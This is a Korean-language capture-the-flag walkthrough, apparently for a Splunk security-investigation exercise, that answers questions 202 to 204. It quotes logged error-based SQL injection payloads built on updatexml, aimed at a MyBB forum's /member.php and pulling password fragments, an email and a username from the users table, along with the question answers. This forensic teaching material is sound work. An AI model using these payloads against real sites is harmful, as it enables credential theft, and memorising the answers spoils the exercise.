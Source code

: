 dest_content 필드의 내용을 보면 중간 SQL Injection의 흔적이 보입니다.

```
SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SUBSTRING((SELECT password FROM mybb_users ORDER BY UID LIMIT 5,1), 32, 31))),NULL) and '1'
```

/member.php uri에 SQL Injection 공격을 하고있는 것을 알 수 있습니다.

답 : /member.php

203	What SQL function is being abused on the uri path from question 202?  
문제 202의 uri 경로에서 어떤 SQL 함수를 통해 침입시도를 하고 있습니까?

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

문제 202에서 파악한 SQL에서 포함된 함수는 updatexml입니다.

답 : updatexml

204	What is Frank Ester's password salt value on www.brewertalk.com?  
www.brewertalk.com에서 Frank Ester의 비밀번호의 salt 값은 얼마입니까?

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

<details><summary>hint#4</summary></details>

문제 202번에서 사용했던 쿼리에 frank ester관련 키워드를 추가해봅시다.

```
sourcetype=stream:http src_ip=45.77.65.211 uri_path=/member.php *frank* OR *ester*
```

dest_content필드의 중간 내용을 보면 username과 email을 알기위해 SQL injection 공격시도흔적이 보입니다.

```
1. 결과
<dt>SQL Error:</dt>
<dd>1105 - XPATH syntax error: ':frankesters47@gmail.com'</dd>
<dt>Query:</dt>
<dd>
			SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SELECT email FROM mybb_users ORDER BY UID LIMIT 0,1)),NULL) and '1'
		</dd>
2. 결과
<dt>SQL Error:</dt>
<dd>1105 - XPATH syntax error: ':frank'</dd>
<dt>Query:</dt>
<dd>
			SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SELECT username FROM mybb_users ORDER BY UID LIMIT 0,1)),NULL) and '1'
		</dd>

```
